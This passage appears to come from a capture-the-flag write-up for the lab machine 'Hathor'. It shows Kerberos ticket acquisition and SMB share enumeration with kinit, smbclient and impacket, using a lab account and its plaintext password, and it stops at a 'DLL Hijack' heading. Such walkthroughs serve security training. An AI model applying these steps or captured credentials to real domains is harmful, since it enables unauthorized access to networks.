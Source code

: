 Then we can run `kinit` and give it the credentials we got earlier:

```
$ kinit BeatriceMill  
Password for BeatriceMill@WINDCORP.HTB:

$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: BeatriceMill@WINDCORP.HTB

Valid starting       Expires              Service principal
05/11/2023 12:19:27  05/11/2023 22:19:27  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 05/12/2023 12:19:22
```

Great! Now we can finally view the shares:

```
$ smbclient -L //hathor.windcorp.htb -U BeatriceMill -N -k
WARNING: The option -k|--kerberos is deprecated!

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        share           Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to hathor.windcorp.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We can connect using `smbclient.py`.&#x20;

```
$ impacket-smbclient -k 'windcorp.htb/BeatriceMill:!!!!ilovegood17@hathor.windcorp.htb'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
share
SYSVOL
```

### SMB Enumeration --> DLL Hijack

Within the `share` share, we can find some stuff:

